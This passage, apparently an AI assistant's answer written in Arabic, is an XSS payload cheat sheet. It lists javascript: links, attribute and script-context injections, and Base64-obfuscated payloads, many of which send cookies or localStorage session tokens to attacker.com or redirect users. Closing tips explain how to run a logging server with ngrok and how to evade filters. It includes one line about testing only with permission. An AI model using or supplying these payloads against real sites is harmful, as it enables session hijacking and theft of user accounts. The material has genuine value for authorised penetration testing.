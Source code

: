 3. حقن باستخدام روابط JavaScript:
- <a href="javascript:alert('XSS')">Click</a>: ينفذ تنبيهًا عند النقر.
- <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>: يرسل ملفات تعريف الارتباط عند النقر.
- <a href="javascript:document.location='http://attacker.com'">Click</a>: يعيد توجيه المستخدم.
- <a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>: يرسل النطاق.
- <a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>: يرسل رمز الجلسة.

4. حقن داخل سمات أو JavaScript:
- " onfocus="alert('XSS'): ينفذ تنبيهًا في سمة.
- " onload="fetch('http://attacker.com/log?c='+document.cookie): يرسل ملفات تعريف الارتباط في سمة.
- ";alert('XSS');//: ينفذ تنبيهًا في سياق JavaScript.
- ";fetch('http://attacker.com/log?c='+document.cookie);//: يرسل ملفات تعريف الارتباط في JavaScript.
- " onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'): يرسل رمز الجلسة في سمة.

5. حقن مع التعتيم:
- <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>: يفك تشفير Base64 لتنفيذ تنبيه.
- <img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <script>alert(String.fromCharCode(88,83,83))</script>: يستخدم رموز ASCII.
- <img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">: يؤخر إرسال البيانات.
- <script>document['location']='http://attacker.com'</script>: يستخدم صيغة غير قياسية.



---

**نصائح إضافية**:
- **اختبار توافق المتصفح**: اختبر الحقن في متصفحات مختلفة (Chrome، Firefox، Safari، Edge) لأن السلوك قد يختلف.
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET وPOST.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `<SCRIPT>`)، استخدام أحداث غير شائعة (مثل `onfocus`)، أو تعتيم الشيفرة بـ Base64 أو ASCII.
- **اختبار نقاط الإدخال**: ركز على التعليقات، المنشورات، أوصاف الملفات الشخصية، والرسائل التي تُخزن وتُعرض.
- **الأدوات**: استخدم **Burp Suite** لمراقبة الطلبات، **XSStrike** لتوليد الحقن، أو **Selenium** لمحاكاة عرض البيانات المخزنة.
- **القيود**: تحقق من سياسات CSP (Content Security Policy) التي قد تحظر تنفيذ JavaScript أو الطلبات الخارجية.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Test for DOM-Based XSS" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل Stored XSS في منصات معينة)، أخبرني وسأقدم ردًا مخصصًا!